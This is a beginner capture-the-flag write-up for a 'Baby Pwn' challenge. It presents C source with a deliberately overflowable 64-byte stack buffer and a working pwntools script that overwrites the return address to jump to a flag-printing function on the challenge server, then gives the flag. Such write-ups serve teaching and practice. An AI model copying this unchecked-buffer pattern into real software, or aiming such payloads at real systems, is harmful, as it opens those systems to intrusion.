 # Baby Pwn
## Challenge Description
![Screenshot 2025-01-12 180747](https://github.com/user-attachments/assets/81feb3a7-6305-40c9-a0b2-2c93a0d7c0c0)  
**Given Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}

void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the Baby Pwn challenge!\n");
    printf("Address of secret: %p\n", secret);
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

## Solution
From the given source code, inside the **vulnerable_function()**, ther is a **char buffer[64]** where it can only store 64 bytes of data.
This is a buffer overflow vulnerability, where user can submit a string more than 64 byte which over the array limit causing a buffer overflow attack.  
After running the program, it will also print out the secret address which can be used to investigate in assembly code.

### Ghidra
![Screenshot 2025-01-12 181023](https://github.com/user-attachments/assets/406ae3fa-366c-4a12-8cfa-8331aaf4bfe3)
When inspecting the assemble of the code, the secret address pushes the RBP to run the secret function which has a **/bin/cat** location and **flag.txt**. 
By knowing this secret function, we can create a payload of 72 bytes (64 bytes + 8 bytes from Base Pointer) with the given secret address. So here is the exploit code:  
```c
from pwn import *

# Connection details
HOST = "34.162.142.123"
PORT = 5000

# Offsets and addresses (update if required)
BUFFER_SIZE = 64  # Buffer size in vulnerable_function
SECRET_FUNC_ADDR = 0x00401166  # Replace with the actual address from the binary

# Create the payload
payload = b"A" * BUFFER_SIZE  # Overwrite buffer
payload += b"B" * 8  # Overwrite saved RBP
payload += p64(SECRET_FUNC_ADDR)  # Overwrite return address with secret()

# Start the exploit
io = remote(HOST, PORT)
io.recvuntil(b"Enter some text: ")  # Wait for the prompt
io.sendline(payload)  # Send the payload

# Receive and print the flag
io.interactive()
```


## Challenge Flag
uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}  
My first pwn challenge XD
